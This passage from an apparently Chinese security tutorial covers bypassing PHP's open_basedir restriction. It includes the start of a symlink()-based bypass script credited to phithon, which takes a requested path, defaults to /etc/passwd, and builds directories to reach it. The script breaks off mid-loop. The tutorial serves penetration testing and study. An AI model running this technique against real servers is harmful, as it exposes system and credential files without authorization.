 ```php
?>
```

可以看到，首字母不同的文件就被列出来了，首字母相同的文件中只列了第一个：

![image-20231120131057456](assets/image-20231120131057456.png)

## 0x09 脚本合集

### p牛的脚本

脚本原理就是利用symlink()函数来Bypass的原理。

```php
<?php
/*
* by phithon
* From https://www.leavesongs.com
* detail: http://cxsecurity.com/issue/WLB-2009110068
*/
header('content-type: text/plain');
error_reporting(-1);
ini_set('display_errors', TRUE);
printf("open_basedir: %s\nphp_version: %s\n", ini_get('open_basedir'), phpversion());
printf("disable_functions: %s\n", ini_get('disable_functions'));
$file = str_replace('\\', '/', isset($_REQUEST['file']) ? $_REQUEST['file'] : '/etc/passwd');
$relat_file = getRelativePath(__FILE__, $file);
$paths = explode('/', $file);
$name = mt_rand() % 999;
$exp = getRandStr();
mkdir($name);
chdir($name);
for($i = 1 ; $i < count($paths) - 1 ; $i++){
    mkdir($paths[$i]);
    chdir($paths[$i]);
```